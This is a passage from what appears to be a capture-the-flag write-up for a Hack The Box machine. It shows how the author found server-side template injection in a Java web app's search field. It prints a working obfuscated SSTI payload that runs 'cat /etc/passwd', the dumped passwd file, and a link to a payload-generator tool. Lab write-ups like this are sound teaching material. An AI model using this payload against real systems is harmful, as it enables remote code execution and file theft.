 Checking the /stats?author=... uri for template injection --> http://redpanda.htb:8080/stats?author=${7*7} gave a funny 400-BadRequest page. Went back to check more SSTI against the search field. Found that *it would evaluate basic math without any escaping*.

🎉 **Found it!** *{ } works as one would expect ${} to work. We can put the payload within those characters to execute code and return the output to the search page.



## FOOTHOLD

This worked (modified from PayloadAllTheThings SSTI section.)

```bash
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

If you follow the ascii table, that says "cat /etc/passwd"

This revealed the contents. It looks like we might be finding a way into the **woodenk** user, but that's just a guess: 

```bash
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false sshd:x:111:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin woodenk:x:1000:1000:,,,:/home/woodenk:/bin/bash mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
```

I figured I could write a script to assemble this insane concatenation of characters... however, it's likely someone else has already written such a script!

A quick google search revealed: https://github.com/VikasVarshney/ssti-payload
